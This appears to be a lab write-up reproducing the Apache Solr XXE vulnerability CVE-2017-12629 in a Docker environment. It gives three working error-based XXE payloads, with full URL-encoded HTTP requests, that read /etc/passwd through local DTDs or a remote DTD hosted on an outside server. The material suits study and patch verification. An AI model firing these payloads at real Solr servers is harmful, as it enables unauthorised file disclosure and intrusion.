



Apache Solr XML External Entity Injection (CVE-2017-12629)¶
Apache Solr is an open-source search server. It is written in Java and built upon Apache Lucene. Before version 7.1.0, two vulnerabilities were discovered: XML External Entity (XXE) and Remote Command Execution (RCE), both numbered as CVE-2017-12629. These two vulnerabilities can be chained together to form an attack chain.
This environment demonstrates the XXE vulnerability. For the RCE vulnerability and exploitation chain, please refer to CVE-2017-12629-RCE.
References:
Environment Setup¶
Execute the following command to start an Apache Solr 7.0.1 server:
docker compose up -d
After the server starts, you can access the Apache Solr management interface at http://your-ip:8983/. No authentication is required.
Vulnerability Reproduction¶
Since the response does not include the information we sent in the XML, this is a Blind XXE vulnerability. However, we can use Error Based XXE to read files.
To exploit Error Based XXE, we need to find suitable DTD files. Here are several approaches:
Using fonts.dtd from fontconfig-config¶
The openjdk Docker image has fontconfig-config installed, which contains a suitable DTD file: /usr/share/xml/fontconfig/fonts.dtd.
Construct the XXE payload:
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
<!ENTITY % expr 'aaa)>
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
<!ELEMENT aa (bb'>
%local_dtd;
]>
<message>any text</message>
Send the request with the encoded payload:
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22file%3A%2F%2F%2Fusr%2Fshare%2Fxml%2Ffontconfig%2Ffonts%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20expr%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0

Using DTD from JAR Files¶
Since we can't predict what software is installed on the target server in a black-box scenario, using DTD files from internal JAR files is a better approach. For example, we can use LuceneCoreQuery.dtd from the lucene-queryparser.jar that Solr depends on.
Construct the XXE payload:
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "jar:file:///opt/solr/server/solr-webapp/webapp/WEB-INF/lib/lucene-queryparser-7.0.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">
<!ENTITY % queries 'aaa)>
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
<!ELEMENT aa (bb'>
%local_dtd;
]>
<message>any text</message>
Send the request with the encoded payload:
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22jar%3Afile%3A%2F%2F%2Fopt%2Fsolr%2Fserver%2Fsolr%2Dwebapp%2Fwebapp%2FWEB%2DINF%2Flib%2Flucene%2Dqueryparser%2D7%2E0%2E1%2Ejar%21%2Forg%2Fapache%2Flucene%2Fqueryparser%2Fxml%2FLuceneCoreQuery%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20queries%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Successfully read the /etc/passwd file:

Using Remote DTD Files¶
If we cannot find suitable local DTD files on the target server and the server can connect to the internet, we can use remote DTD files.
Deploy a DTD file on an HTTP server:
<!ENTITY % test "example">
<!ELEMENT pattern (%test;)>
Then construct the XXE payload:
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "http://evil.host.name/include.dtd">
<!ENTITY % test 'aaa)>
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
<!ELEMENT aa (bb'>
%local_dtd;
]>
<message>any text</message>
Send the request with the encoded payload:
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22https%3A%2F%2Fgist%2Egithubusercontent%2Ecom%2Fphith0n%2F188f03ac0f3c5d899895268f05fd0a51%2Fraw%2F7b481b122622d77c49c619fa047a52051f9652d8%2Finclude%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20test%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Successfully read the /etc/passwd file:
